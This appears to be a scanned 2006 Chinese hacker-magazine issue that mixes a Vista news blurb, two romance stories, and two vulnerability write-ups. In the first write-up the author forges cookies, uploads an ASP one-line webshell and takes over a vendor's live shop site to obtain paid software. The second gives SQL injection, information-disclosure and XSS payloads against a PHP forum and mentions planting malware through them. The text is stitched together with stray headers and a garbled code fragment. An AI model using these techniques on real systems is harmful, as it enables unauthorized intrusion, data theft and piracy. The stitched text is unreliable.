2007. These release dates come more than five years after the release of Windows XP, Microsoft's current consumer and business operating system, making it the longest time span between major releases of Windows.

Windows Vista 是微软 Windows 系列即将发布的系统名称。它为个人电脑设计，包含了家庭用户、商业桌面用户、笔记本用户以及多媒体中心。2005 年 7 月 22 日，Vista 首次以代号 Longhorn 亮相。2006 年 11 月 8 日，Windows Vista 开发版本已经最终完成，它可以随即批量发行。微软声明，计划中的公开发售日期为 2006 年 11 月 30 日，而全面的针对全球的零售将在 2007 年 1 月 30 日。Vista 的发布距离 Windows XP 的发布时间隔了五年，在这两个重要版本发布中，微软浪费了它的客户很多时间。

According to Microsoft, Windows Vista contains hundreds of new features, some of the most significant of which include an updated graphical user interface and visual style dubbed Windows Aero, improved searching features, new multimedia creation tools such as Windows DVD Maker, and completely redesigned networking, audio, print, and display sub-systems. Vista also aims to increase the level of communication between machines on a home network using peer-to-peer technology, making it easier to share files and digital media between computers and devices. For developers, Vista introduces version 3.0 of the .NET Framework, which aims to make it significantly easier for developers to write high-quality applications than with the traditional Windows API.

根据微软所说，Windows Vista 包含了上百个新功能，值得注意的有：被称为 Aero 的全新的图形化操作界面，全新的多媒体制作软件——Windows DVD Maker，全部重新设计过的网络、声音、打印和图像显示系统。Vista 也瞄准了提高家庭环境中基于点对点技术的交流，使得文件传输更加快捷。对于开发人员，Vista 包含了 .NET Framework 3.0，旨在帮助程序员在传统的 Windows API 环境下编写质量更高的软件。

Microsoft's primary stated objective with Vista, however, has been to improve the state of security in the Windows operating system. One of the most prevalent common criticisms of Windows XP and its predecessors are their commonly exploited security vulnerabilities and overall susceptibility to malware, viruses and buffer overflows. In light of this, then Microsoft chairman Bill Gates announced in early 2002 a company-wide "Trustworthy Computing" initiative which aims to incorporate security work into every aspect of software development at the company. Microsoft claimed that it prioritized improving the security of Windows XP and Windows Server 2003 above finishing Windows Vista, significantly delaying its completion.

不过，微软在 Vista 中最想实现的是提高操作系统的安全。市面上最流行的针对 Windows XP 以及更早的版本的批判，就是它们非常容易受到攻击，并且容易感染病毒、木马以及遭受缓冲区溢出。对此高度重视之后，微软老板比尔在 2002 年早期宣布创建“可信赖的计算机体系”，旨在提高公司各个方面的安全软件开发工作。微软要求在完成 Vista 之后，按照顺序地提高 Windows XP 和 Windows Server 2003 的安全状况。

# 嗡嗡黑语

## XApache 嗡嗡

北京大街上越来越低的温度似乎在提醒着我们，2006 年即将划上休止符。晚上在同事家里炖萝卜羊肉，暖暖身子。先把羊肉和调料放入锅内煮熟，再把萝卜放进去。最后撒上葱花和香菜……热气氤氲，窗户多了一层水汽，隐约能看到楼下的男男女女。十二月，北京已经变得很冷，单薄的衣服已经挡不住寒风的侵袭。而一个叫安安的作者又给我们带来一篇《风一样的爱情》，让这样的天气更添凄凉的意味。不过希望你看完后面一篇《幸福的味道》之后，能够慢慢温暖起来……

# 风一样的爱情

翘起小指，自嘲地看着细长的手指缝。

那枚金灿灿的戒指，这是我在那对打了十二年战争的夫妻终于达成协议之后，在民政局门口的“渴望幸福”买的，总价值三十四块八——很便宜是不是？

右手里夹着一支“茶花”，淡淡的香味让我不至于讨厌。虽然我很讨厌烟味，但是我也在制造着二手烟，好像一个矛盾的综合体。

摸摸被我压在身子下的黑色草草背包，把手中没抽完的烟随手放进烟灰缸的夹缝中，看着它燃烧着，随手打个响指，叫来一瓶“美年达”。

这个网吧不是环境很好的那种，空气中充斥着烟味和方便面的味道，我喝了几口饮料，把喉间的烟味压下去，紧紧地盯着眼前的电脑屏幕，期待着目标的出现。

OK，终于出现了，我迅速地从挎包中抽出一本没有封皮的杂志，找到一篇叫《网吧入侵完全手册》的文章……该是我活动的时候了。我的目标是——这个网吧的系统！

十分钟……

在我满心以为已经成功的时候……意外发生了！我受了惊吓般地把辫子往宽大的椅子上一靠，满眼不可置信——在我运行完最后一个小程序的时候，我突然被踢了出来，对方还顺手般地在屏幕上刷上两个字：笨蛋！

那个惊叹号硬生生地把我的喜悦转化为愤怒，该死的，不要让我知道是谁干的，不然我非……至于非要怎么，我也不清楚。反正我知道，对方是谁，绝对不会给他好果子吃就是了——我不是一个乖女孩，至少在两年前已经不是了。

我知道对方已经监控了我的电脑，只能暗自咬牙跟这个技术明显比我高一大截的家伙周旋。迅速地在面前的文档上打上：“狗拿耗子！”，对方一呆，在面前的文档中迅速地打上一行字：“丫头，罢手吧，我在这里你讨不了好！”

啊？他知道我？不妙，我迅速地起身，大大方方地走到前台结账，快速离开。整个过程没有丝毫的拖泥带水，毕竟我干这个事情也不是第一次了，虽然这是我第一次被人砍到。

刚刚离开这个叫作“蓝月亮”的网吧，我顿顿脚掌，有些不甘心地再次回头，却傻傻地呆在那里，风无声地扬起我长长的发丝……我见到了我的目光。

好像不是头一次见到他，他似乎在我梦中出现了很多回，风一般的笑容，让人嫉妒得发疯。温雅的举止，俊逸的脸庞，举手投足间流露出让我疯狂的温柔……是的，温柔。他仿佛是从我的梦中走出来的，缓步来到我的面前。看到我的痴迷，他又微微地一笑，牵起我的小手，没有任何话语，就带走了我。而我，则迷失在他的背影中。倘若……倘若可以，我愿意随他走遍天涯……

我很喜欢他，他好像也能看出来。悠扬的风琴声在这个舒适的咖啡厅里旋转着，他长长的手指搅起面前的红茶，微微地抿一口，看着我深呆的样子，只是那么温柔地笑着。

他说，他不适合我……

为什么？我问他。

“我是风，你追不上我，而你需要的是一个安定的生活。”说话的时候，他的目光迷离地望着远方。

“不试一试，你怎么可以这么肯定地拒绝我？”我丝毫不妥协。

“丫头，你的路，与我的……不一样啊……”他笑，再次喝茶，仿佛我的执著在他眼中只是小孩闹脾气。

“那你为什么带我来这里？”我依旧固执。说话的时候还记起很久以前，有个男人会叹息地摸着我的头，说我固执的性子和他的妻子是那么一样……那个男人是我的父亲……

“你应该有幸福的生活，而不是像现在一样漂泊，这种生活不适合你！”他定定地看着我，目光中有一种我难以看透的神色，有着沧桑，有着无奈……

我抬头，拂去挡住我视线的眼泪和发丝，倔强地看着这个二十左右年纪的男人，看着他放在旁边椅子上的风衣，他温柔的眼睛。我定定地伸出手，白嫩的手指朝上伸到他的眼前。

他不解地望着我，迷惑的样子让我看了开心，我笑了，笑得他一脸迷惑。

“电话！”

他莫名地看着我，却拗不过我的固执，笑笑地摇头，递给我他的三星。我接过来，冲他一笑，迅速打开他的通讯簿，把我的名字和手机号码输入进去，然后又拿他的电话拨了我的手机，满意地听到我的手机响起那首《求佛》。

“还你！不许删掉！”我把手机扔给他，霸道地命令他不准删掉我的手机号。

我扬起甜蜜的笑容，与他挥手说再见，刻意地把他的那句“也许无法再见……”掐在风中，我不相信他会不见我。

“去哪了？”

我打开门，迎来的就是这句夹着怒火的话，我没理搭理她，因为我心情好。

“你给我说话啊！”她不依不饶地跟着我进了房间。

我转过身来，扯下耳塞，笑得很张扬：“泡男人了！怎么样？”

我恶意地看着门外那个男人涨红的脸，我的心情很好。

“你，你……你要气死我才开心是不是啊……”她的脸也涨得通红，多半是我气的。

我冷冷地看着她，看着她怒火中烧，看着她隐隐的泪眼，我硬生生止住心疼，轻轻地一笑：“是你教的……”

“啪……”

没有其他的声音，MP3 丢在地上，耳机里隐约传出那首让我心痛的《求佛》。我在扬起头的瞬间，滴下两滴滚烫的泪。我从挡住半边脸的发丝缝隙中，用着最无情的目光盯着那个颤抖的女人，看到她颤巍巍地伸出手想要抚摸我，我在她惊讶的目光中闪开，冷冷地抛下一句话：“你没有资格！”

我离开了，离开了那个我认为冰冷的家，离开了那个女人和那个女人带回来的男人。

一个落寞的人最喜欢去的地方是哪里？除了酒吧还能是哪里？

我夸张地笑着，不管是谁送的酒一律照单全收。在醉得最深的时候，我的脑子却无比清晰。我摸索着拨了他的号码，“嘟嘟”地响过之后，电话那方是沉默，而我在电话这边却是大吼。我吼着说我喜欢他，我吼着说要他带我走，不管走到哪里。我吼着说我在看到他的那一刻起就知道我是属于他的。我吼了很多，迷糊得只想把心里的话都倒出来……

他来了，来到我的身边。醉得迷迷糊糊的我像捉到了最后一根救命稻草，我趴在他怀中哭泣，我哭着说了很多很多……

太阳照到了眼帘，我迷蒙地睁开眼睛，抬眼看着周围陌生的环境，吃力地揉着宿醉后想要爆炸的头。隐约间，我只记起，我想把自己给他……

看着身上简约的衬衫，有着他味道的衬衫，我笑了，满足地笑了，我喜欢他，真的！扶着痛得夸张的头，我摸索着来到客厅，这里显然不是他的家，似乎是个酒店。

我颓然地坐在沙发上，看着眼前玻璃上的字条，我满脸的甜蜜，我以为他已经属于我了。

> “丫头，当你看到这封信，我已经走了。你我真的不适合。放心，昨天晚上我只是帮你换了衣服。你有你幸福的路，我却不能……是真的真的不适合你。也许有天你我还能相见，但愿那时你已忘掉我。祝你以后的生活会有浪漫……不要再被人骗了！”——风留

他走了，就这么走了？我不相信！一天，两天，三天……我在这个城市走着，找着，期待在某个路口转身，能够看他温柔地笑着叫我丫头！

可是，他的电话号码停机了，茫茫人海，我却连从哪里找起都不知道……

> **编辑点评：**
>
> 破碎的家庭，颓废的生活，个性放纵的女孩流浪在酒吧和网吧中不断地找寻自我，直到最后遇到了那个令她心仪的男人……“我们还能不能再见面，我在佛前苦苦求了几千年……”也许只有用这句歌词，才能形容她最后的心境了。在这个迷乱的年代，连分手都很沉默，又况且是单恋呢？

# 幸福的味道

木子是一家电脑杂志社的技术支持，所负责的工作就是每天回答别人提出的各种技术问题，用 QQ 接触不同的陌生人，研究那些木马和病毒。木子很热爱这份工作，因为这至少和自己喜欢的技术有些关联。

小小的出现让木子很头疼，她应该是属于那种简单、天真、可爱的小家伙。然而木子偏偏就是喜欢不起来。还记得那是在一个很深的夜里，小小的头像在木子的电脑屏幕上不停地跳动着。双眼疲惫的木子打开对话框，小小打过来一个笑脸符号：“高人！快告诉我为什么音箱没有声音？”

木子有些气愤，连这种问题也需要技术支持吗？但是出于友好，木子还是回答了：“这可能与你的个人设置有关系，对不起，这不属于我们的技术支持范围。”

很久之后，小小才说：“难道就是因为这个原因，你才对我的问题如此敷衍吗？难道技术支持就是对别人的问题抱着搪塞的态度吗？”

木子发现这个小丫头年纪不大，嘴巴倒是特别厉害。为了不必要的口舌战争，木子没办法，只好告诉她如何检查音效设置。但是小丫头竟然告诉木子一切都检查好了，没有任何问题。木子怀疑是不是音箱坏掉了，可小小却一再地否定。这下木子真的有点迷糊了，最后不得不借助远程协助来检查小小的设置。结果没把木子气死，这个小丫头竟然没有检查音箱的插头。这样的夜晚，木子因为一个小丫头气得半死，折腾了好几个小时，问题竟然是如此地简单。看来这个小小根本就不是一般的菜鸟，而是能气死人的鸟蛋。

生活总是这样，每天都会遇到一些可笑、可爱、可悲的人或事，上演不同的剧目。正是这些琐碎的小事才拼凑出一块生活的调色板，才会让生活更加绚丽。可是木子却没想到小小这个青涩的丫头会给他带来这么丰富的色彩。

在第二天深夜的同一时间，小小又敲开了木子的对话框：“快告诉我，怎么隐藏 QQ，快点！快点！”隔着冰冷的屏幕，这边的木子看不到小小焦急的样子，但每个字符仿佛都浸透着小小稚气的声音。因为前一天晚上的愤怒，木子故意缓慢地打着字说：“丫头，我不是专门为你回答这些问题的，还有你问的这些对你来说根本就没多大的用处，可你却占用了我宝贵的工作时间。”

小小似乎很生气：“这也是网络技术的一种啊！而且谁说对我没有用处啦？我妈让我用电脑学习，我把 QQ 隐藏起来，可以减少很多家庭纠纷啊！真笨！”

看到小小这么理直气壮，木子鼻子快被气歪了。他教训道：“你这是骗你妈妈，这么做是不对的！”

小小反倒更加有理了：“我聊 QQ 也是对网络和社会的一种了解和学习，而且对我妈来说，这只是个善意的谎言，一切出于爱的名义就不是罪过了。我要我妈高兴，不想让她生气才会这么做的。”木子实在收拾不了这个调皮的小丫头，她总是说得头头是道，而且让人没有任何回转的余地。对于技术，木子从来都没有头痛过，但是对于小小，木子真的有点害怕。所以在小小“晓之以情，动之以理”的“诱导”下，最终不得不屈协，告诉了这个小丫头如何隐藏 QQ。

从此以后，小小好像黏上了木子，问些怎么升级杀毒软件、怎么删除帖子、怎么调整本地时间这些让木子哭笑不得的问题。每次木子叫小小不要问他这样的问题的时候，小小都会以各种理由来让木子投降。而木子也渐渐地开始包容这个爱惹祸的小丫头，又爱撒娇的小家伙了。她的天真和坦率给疲惫的木子注入了一股甘甜的清泉，清凉又不带任何尘世的味道。

木子已经开始喜欢被这个可爱的小妹妹纠缠了，但是他却不知道在频繁的聊天中，小小对他的情感在不知不觉中发生了微妙的变化。在木子眼里，在网络中除了技术是真的，其它全部都是虚构的。所以他从来没有注意到小小的变化：关心的语言，撒娇的口气，越来越差的脾气，经常会被他骂成是一个傻得快要腐烂的木头。

小小告诉木子她喜欢北京，木子问为什么？小小说，因为北京那个遥远的城市里有一个她很想念的人。每次说到这儿，木子就会觉得特别地凄凉，但他什么都不说。小小期待着木子能问些什么，可木子的沉默让小小变得格外地失落。那是一种失望的落寞。是他真的不懂她，还是根本就不了解她心里在想什么？

每次下雨的时候，小小都会特别地想念木子，因为她知道木子是一个很不会照顾自己的家伙，经常会听他说感冒很难受。

又是一个阴雨的天气，木子在电脑前心神不宁，因为每次读留言的时候，小小都会叮嘱木子下班的路上小心。可是这一整天她都不在线，窗外的雨拼命地敲打着玻璃窗，每一滴似乎都敲在木子的心坎上。就在这时，同事喊木子接电话，他慌慌地拿起电话，里面传来了一个好听又胆怯的声音：“喂，你是木子吗？我是小小！”木子愣了一下，便傻傻地将走到阳台边拉开了窗。只听见里面的女孩继续颤抖着说：“北京冬天的雨好冷啊，你是不是又像往常一样没有带伞？我在楼下等你下班。”

同事们淡淡地发出起哄的笑声，女孩温柔甜美的声音让木子的大脑一片空白。一切似乎都不真实地存在着。木子和同事趴在窗前，望着楼下那个在雨中打着伞、不断跺脚的女孩，似乎有种错觉一直在胸膛不停地涌动着。女孩踏着雨水的脚步声，让平时沉稳的木子有些急躁。

终于等到了下班，木子飞快地冲出办公室，身后跟着好奇的同事。面对眼前有点瘦小却很清秀的小小，木子本来想问她为什么来北京，为什么在雨中等他，诸如此类的问题。可除了脸颊微微发烫，他什么话都说不出来。木子拿起小小的那把浅蓝色的伞，拉着她走向远处。在阴冷的雨中，两把晃动的伞温暖着整个快要入冬的天气。

小小说在她的那个城市，没有在雨中行走的快乐，也没有陪木子一起吃饭的幸福。所以她来了北京。但是木子很快就明白了，两个人如果仅仅依靠感觉，会得到什么呢？小小还需要继续读书，而木子要陪着电脑熬过每一天，根本就没有任何多余的时间留给那个天真的公主。

木子开始陷入深深的困惑中，每当望着小小温柔、贴心的笑容时，木子的心都会狠狠地被刀扎一下。

木子面无表情地对小小说：“我们根本就不适合，所以你还是不要在北京逗留太久了。你该回到你自己的生活中，我对你只是出于新鲜。”木子说完这些，便转头离开，不敢看小小那心痛、委屈的神情。

分明听见那雨滴落在地上摔碎的声音。也许小小永远都不会明白，他给不了小小什么，而小小也没法给他什么。他们就算再努力地书写关于爱情的美丽篇章，也无法把那些现实的东西瑰丽到对方空白的生活。

小小走了，从来都没有这么听话。QQ 上再也没有那个调皮的小家伙了。木子开始很不适应没有她的日子，每天都在不停地想念她。他在 blog 中看到小小的留言：“我会好好地学习，有一天会留在北京，和那个叫木子的人一起快乐地在雨中行走，幸福地吃着每一顿饭，不让他觉得什么都是虚幻。小小认真的誓言！”木子笑了，但是心里却很想哭。他明白那个瘦小的女孩是多么温柔、多么勇敢。

又是一个冰冷的雨天，街上无数晃动的伞让萧瑟寒冷的北京城有了一些温暖。木子看着敲打在玻璃窗上的雨滴，突然有了一种很熟悉的感觉。他拿出手机，拨通了小小的电话，听到那温柔的声音后说：“小小，我想你了，北京又下雨了。记得你给我的誓言。”那一边是开心的哭泣，遥远但却亲切、真实。心酸的甜蜜都是幸福的味道。

> **编辑点评：**
>
> 看完这篇文章，小编突然想起以前好像还真遇到过这样可爱的女读者，不过能千里迢迢赶到北京和我在雨中散步的，却是一个也没有（土豆：哈哈，魅力不够吧。小编：汗，上班时候一直没下雨。）。很羡慕木子和小小，虽然两个人最后没能在一起，但还是互相深爱着对方，正所谓：若是两情长久时，又岂在朝朝暮暮？

## 新闻绿绿看

**天天无语：** 这期新闻内容很是丰富，越来越多的人把目光转向了比较大的系统，如论坛、网上商店等。以前大家肯定以为这种大系统的安全性能不错吧！其实不然，从这期的几篇文章大家可以看到：一些网上商店、论坛系统在安全性上令人不敢恭维，甚至有的还存在超级危险加低级的错误。

希望广大安全爱好者再接再厉，人人都成为安全专家！而前提是：不要只说“看”不做，just do it，你也可以找到漏洞的。

# 良精商城网店系统漏洞分析

- 从本文你可以学到：
- 良精商城网店系统漏洞分析
- 漏洞的实际利用

今天正闲着无聊，一朋友发来消息说他急用一套商城系统，并指定了只要“良精商城网店系统”。鉴于我和他极好的关系，决定帮他这个忙。按照朋友给的 URL，打开官方网站，如图 1 所示。

第一眼看上去，感觉这个网站没有多大的实力，既然是官方网站，居然不用自己的程序，还用乔客的。随便点击看了下，发现可以下载免费版，不过，放到本地一运行才知道，原来后台好几个功能都没有，要付款后才能使用到正版，感觉有点不爽。如果要写那几个功能的话，要花费一定时间，实在划不来，于是决定研究一下它的代码，看看有没有大的收获。

## 一、注入尝试

下了源码之后，首先尝试一下注入，在 `list.asp?ProdId=xxxx` 后面加了个单引号看看，得到如图 2 所示。

然后又测试了其它的页面，均显示和图 2 相同的结果。查看了一下 `list.asp` 代码，发现语句未经过滤，代码如下：

```asp
id=trim(request("prodid"))
``````asp
if id<>"" then response.redirect "main.asp"
Set rsprod=conn.execute("select * from buyok_product where Online=true and Product='"&id&"'")
if (rsprod.bof and rsprod.eof) then
  response.redirect "main.asp"
```

从上面的防注提示，结合上面的代码，我们明白了：所有经过数据库操作的语句已经被一个通用防注系统过滤，此通用防注系统由 `<!--#include file="include/buyok_shop_30_conn.asp"-->`（此为网站的数据库连接文件）组合而成。按照我们的分析进行查找，发现 `<!--#include file="buyok_functions.asp"-->` 有防注功能，且被文件夹 include 下的文件 `buyok_shop_30_conn.asp` 所包含，截取部分代码如下：

```asp
sub aspsql()
  SQL_inidata = ",|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare" ' 用|进行分隔要过滤的字符
  SQL_in = split(SQL_inidata,"|")
  If Request.Form<>"" Then
    For Each Sql_Post In Request.Form
      For SQL_Data=0 To Ubound(SQL_in)
        if instr(Request.Form(Sql_Post),Sql_in(SQL_DATA))>0 Then
          response.write "<script language='javascript'>"
          response.write "alert('网站安全提示：请不要在参数中包含非法字符！');"
          response.write "location.href='javascript:history.go(-1)'"
          response.write "</script>"
          response.end
        end if
      next
    next
  end if
end sub
```

这是一个对 form 表单的过滤，在省略的代码中，还有针对 `Request.QueryString`，即 GET 方式提交的数据进行过滤。经过这样的处理后，要想注入，几乎是不可能的了。就这步看来，这个程序员安全意识还比较强。

## 二、漏洞1→COOKIE 欺骗，修改任一用户资料

不知道程序员是怎么想的，SQL 防注入方面都做得很不错，在进行网站验证时，却用了大量的 COOKIE 来进行。懂 ASP 的人都明白：COOKIE 是脆弱的，一不小心就会被利用，下面用户验证这个页面就说明了它的问题。

当我们注册好一个用户，登录后，会来到 `user_center.asp` 这个页面，下面我们来看看它是怎么验证的，在 `user_center.asp` 内，2-4 行内容如下：

```asp
<%
call checklogin()   ' 用户验证
call aspsql()       ' SQL 检查

sub checklogin()
  set rscheck=conn.execute("select * from buyok_user where Userid='"&request.cookies("buyok")("userid")&"'") ' 从COOKIE提取用户名 userid
  if rscheck.eof and rscheck.bof then ' 如果数据库中不存在则提示“对不起，您还没注册或登录”，否则登录成功
    response.write "<script language='javascript'>"
    response.write "alert('对不起，您还没注册或登录')"
    response.write "location.href='javascript:history.go(-1)'"
    response.write "</script>"
```

```asp
response.end
end if
set rscheck=nothing
end sub
```

这种验证，突破太容易了，我们可以这样利用：

首先，注册一个用户（我注册的为 `ttfct`），并登录后台，如图3、图4所示。

注意上面的 COOKIE 值：`buyok=userkou=9%2E9&ad=172%2E16%2E74%2E250&userid=ttfct; buyok%5Fuser%5Fip=172%2E16%2E74%2E250; ASPSESSIONIDACBDRCSQ=OCHFAEHAFBMKJEFFBCOIEGNC`

假设我们知道此站还有一个用户，其用户名为 `sina`，那么我们直接把 `userid=ttfct` 改为 `userid=sina`，就可以成功登录。如图5、图6所示。

由于密码设置里，修改密码需要原密码，不能修改，但是，我们可以转到页面 `my_psw_set.asp`，修改找回密码问题和答案，如图7所示。

然后回到主页，通过忘记密码就可以修改用户的密码了。

## 三、漏洞2→伪造 COOKIE，登录后台

如果说前面的那个漏洞小，那这个漏洞就大了，直接仿照 COOKIE 登录后台。还是让我们先看看它后台是如何验证的，后台验证页面由 `checkadmin.asp` 处理，看看 `checkadmin.asp` 的全部代码：

```asp
<%
if request.cookies("buyok")("admin")<>"" then response.write "<meta http-equiv='refresh' content='0;url=../admin.asp'>"
' 如果 cookie 不为空，则转到 /admin.asp（即后台页面）
%>
```

看看上面这句，是不是觉得仿照 COOKIE 登录后台是很现实的呢？于是我们构造如下 COOKIE：

`ASPSESSIONIDACBDRCSQ=FCHFAEHAJJJEJCLCKEGGFPJP; buyok=ordersql=&admin=admin&sql=`

成功登录后台，如图8、图9所示。

## 四、测试官方，获取正版

刚才下载测试的是官方的最新版，想必官方也存在这样的漏洞，于是拿起工具，上前线。用老兵的工具，填上伪造的 COOKIE，转向后台 `http://www.asp3721.cn/shop/admin`，却出现如下错误，如图10所示。

# 新洞练练看

提示：“用户您好，您的电脑没有开启 COOKIES，您将不能正常登录后台，请启用 COOKIES 后再访问本页”。感觉有点奇怪，我明明开启了 COOKIE，难道哪里出问题了？后台主页我进不去，那试试后台的一个分页面：

`http://www.asp3721.cn/shop/admin/config1.asp`，这次成功登录，如图11所示。

然后，再转到 `http://www.asp3721.cn/shop/admin/index.asp`，这次终于成功登录后台。后台登录了，怎么拿 WEBSHELL 还是个问题，第一次思路是通过备份数据库来拿，不过，发现没有路径输入，如图12所示。

于是就放弃了，然后查看了一下上传文件的函数，很不幸运，没发现漏洞。再次查看，虽然发现这个系统有 `ewebeditor`，但是无法利用，想通过数据库插一句话的方法突破，却发现数据库中加了一个防下载的表，要从这里拿 WEBSHELL，是不现实的。于是后台逛了一圈，发现后台有个“在线修改后台目录”的功能，如图13所示。

注意下面的提示语：“此操作需 FSO 功能支持”。这句话告诉了我们什么？这个功能不是把后台目录插入数据库中，而是利用 FSO 功能将后台目录直接更名；在更改之前我们先看看一下服务器的操作系统。后台“服务器及组件信息”显示如图14所示。

看到这里，大家应该明白了吧，系统是 2003 的，我们就利用 `HAIIA.ASP` 文件夹来拿 WEBSHELL。我们先点击“数据库在线维护”，然后点击上传，我们上传 `eval.mdb`，其内容为：`<% eval request("go") %>`，如图15、图16所示。

注意到上传成功的提示：文件上传成功！上传文件的物理路径为：`D:\virtualhost\web831615\www\shop\admin\shopbackup.mdb`。这是物理路径，`shopbackup.mdb` 就是我们的 `eval.mdb`，且存在于 `admin` 目录下。在 `admin` 目录下，这很重要，否则我们就拿不到 WEBSHELL 了，这就是我为什么选择在“数据库在线维护”处进行上传的原因了。

现在我们更改后台目录为 `haha.asp`，一会儿提示更改成功了，我们用 LAKE2 的连接端成功连接，上传海洋，如图17所示。到此为止，成功拿下了 WEBSHELL，把它交给了朋友，成功地 DOWN 下了正版。

### 五、总结

这次主要利用了 COOKIE 的伪造和 WINDOWS 2003 的 IIS 特性获取了 WEBSHELL。可能有人要问了，如果不是 2003 的系统，那不是没有办法了？其实不然，由于第一次的疏忽，没有注意到后台备份数据库的地方使用了隐藏变量，看看代码：

```html
<form action=safe5.asp method=post name=backup>
<tr class=bqks><td colspan=2 class=td height=48>数据库在线维护</td></tr>
<input type="hidden" name="oldpath" value="../data/#lianjunjie_shop.asp">
<input type="hidden" name="DBname" size="20" value="shopbackup.mdb">
```

我们只要把 `action` 改为目标网址，`name="oldpath"` 的 `value` 值改为你上传的图片，`name="DBname"` 的 `value` 值改为你要备份的 ASP 文件就可以了。最后，欢迎大家和我交流，我的 ID 是 TTFCT。

> 编辑点评：现在坛里几个人，做设计的做设计，写代码的写代码，搞个 XX 系统都不是什么难事了。可以在网上看看，N 多 N 多的系统，功能差不多，版式也差不多，你模仿我，我再模仿他。如此一来，大家的东西在表面上看样子差不多，但是在一些运行逻辑上，“代码构造”就能把专业与非专业体现出来了，一个专业的系统还是能够经得起推敲的。

# 深度解剖

### 南部弯论坛安全性

曾宏斌（湖南·长沙）

- 从本文你可以学到：
- 1. 南部弯论坛的漏洞分析
- 2. PHP 漏洞的分析过程

南部弯是一个由 PHP+MySQL 构造的非常不错的论坛，在功能上并不亚于国内哪个 PHP 论坛。在分析代码之前本来是推荐给朋友做论坛的，可惜看完代码之后，其安全性实在让人不敢恭维。我想开发这个论坛的程序员根本就没明白参数是具有危害的这句话，下面是我分析的具体过程。

## 一、SQL 注射

论坛的大部分 URL 中都会含有 `$bdid` 和 `$bbsid` 这两个参数，涉及到很多文件。但是这两个参数都是没有过滤就进行了数据库操作，漏洞被完全暴露出来，具有代表性的代码有：

```php
省略代码：
$bdid = $_GET['bdid'];
$bbsid = $_GET['bbsid'];
$sql="SELECT ttable, name, page FROM board WHERE id='".$bdid."'";
$board = $db->fetch_array($sql);
...
$sql="SELECT title, txt, up, super, recommendation, locked, userid, username, tim, readtimes, penname, upload_pic, upload_file FROM ".$ptable." WHERE id='".$bbsid."'";
$bnum = $db->fetch_rows($sql);
if($bnum == 0){ ... }
```

上面的参数 `$bdid` 和 `$bbsid` 都是在 GET 后就直接插入到数据库当中去了，完全没考虑到参数的安全问题。自然漏洞也就出来了，如图1、图2所示。因为参数都是在 URL 中，所以非常方便使用工具进行扫描，只要在工具中加入数据库中的字段，那么所有的密码都可以得到了。在进入后台后利用数据库备份就轻易得到 webshell，如图3所示。整个过程非常顺利和流畅，完全是工具的功劳呀！

## 二、信息泄露

文件 `aboutuser.php` 是一个显示用户注册信息的文件，在这个文件中由于没有考虑到权限的问题，所以只要知道注册用户的 ID 就可以在不注册的情况下查看其信息，导致很多隐私信息的泄露，下面就是其处理过程的代码。

```php
if($userid=='')
    $userid = $_GET['id']; // 取得ID参数
$sql="SELECT numblow, numb1, numb1, tim, user_step, user_face, user_name, user_sex, user_birth, user_mail, user_qq, user_web, user_tel, user_comefrom, user_job, user_love, user_aboutme, online_ontims, online_txt, online_pop, online_suptxt, online_recomtxt, online_lastin, online_lastim, (TO_DAYS(NOW())-TO_DAYS(online_lastin)) FROM ... WHERE ...";
$test = $db->fetch_rows($sql);
if($test==0){ ... }
if($user[6]=='m') $sex='男';
elseif($user[6]=='f') $sex='女';
if($user[8]=='n') $user_mail='';
if($user[10] != '') $user_web='<a href='.$user[10].' target=_blank>'.$user[10].'</a>';
$sql="SELECT bid, bname FROM master WHERE userid='".$userid."'";
```

很明显，在取得 ID 这个参数后就查询数据库，然后根据 ID 把数据库中会员的信息全部显示出来，而根本没有涉及权限的问题。如图4所示，在不注册的情况下就直接得到了管理员的信息。所以修补这个漏洞应该要加一个认证机制，用来判断用户是什么身份，然后根据身份显示不同的信息。

## 三、疯狂跨站

这里的跨站漏洞是我见过的有史以来最疯狂的论坛，各种常见的跨站技巧在这里都尽显出来。下面就开始我们的疯狂跨站吧！

`actmodifypenname.php` 文件用于个性签名，用户可以在上面填写自己喜欢的签名，它是这样处理的。

# 新洞绵绵看

```php
$set1 = $_POST['set1'];
$set2 = $_POST['set2'];
$penname1 = $_POST['txt1'];
$penname2 = $_POST['txt2'];
$sql="SELECT * FROM numb1 WHERE userid='".$id."' AND pwd='".$pw."'";
// 参数没过滤
$num=$db->fetch_rows($sql);
$db->close();
exit("<table width=\"300\" border=\"0\" align=\"center\">...ERROR...\n");
if($set1!=''){
  $db->query("UPDATE online SET penname1='".$penname1."' WHERE userid='".$id."'");
}
if($set2!=''){
  $db->query("UPDATE online SET penname2='".$penname2."' WHERE userid='".$id."'");
}
$db->close();
```

上面的参数没有得到过滤就 UPDATE 操作了，输入 `<script>alert("签名跨站")</script>` 后跨站漏洞出现，如图5所示。`action.php` 用于会员发表帖子，同样在处理参数时没有得到有效的过滤，处理代码和上面的差不多，只是把 UPDATE 改成了 INSERT 而已。输入跨站代码后的效果如图6所示。

有发帖自然就有回帖的功能了，它是由文件 `actreply.php` 来处理数据的，代码如下：

```php
if($upload_pic_error==false && $upload_file_error==false){
  $sql="INSERT INTO ... VALUES(...)";
  $bbsid=$bid;
  $title=$text;
  $id=$id;
  $name=NOW();
  $ip=$ip;
  $penname=$upload_pic;
  $upload_file='';
  $db->query($sql);
}
```

这里的参数虽然有一些过滤，但回帖的主题却没有，而且这里还支持贴图功能。这个时候大家应该想到 IMG 跨站了。所以这里出现了两个跨站：一个是文本跨站，一个是 IMG 跨站，如图7、图8、图9所示。

论坛还支持用户自定义头像功能，不过它这里并没有过滤参数，所以我们借助 IMG 标签来跨站。但是这里的跨站有点不一样，如果直接输入 IMG 跨站代码 `javascript:alert("头像跨站")` 并不会取得跨站效果，因为它这里的头像大小被系统事先定义好了，如果直接输入跨站代码，我们在返回的代码中可以看到被双引号给封闭了。返回的客户端代码：`<td width="141" rowspan="7" bgcolor="#f8f8f8"></td>`。所以如果我们填入 `"#" onerror=alert('头像跨站') "` 这样的代码就可以避开双引号的封锁，最终达到我们的目的，如图10和图11所示。

论坛还支持给其他用户发送留言的功能，为了测试这个漏洞我注册了 A 和 B 两个用户，我用 A 用户向 B 用户发送了一封留言，因为标题限制了长度，所以用留言内容来跨站。在我登录 B 用户后发现有 A 用户的留言，打开之后就出现了跨站效果，如图12所示。而且这个跨站具有主动攻击性，我们可以在里面写入挂马代码之后发送给想挂马的用户。

## 四、总结

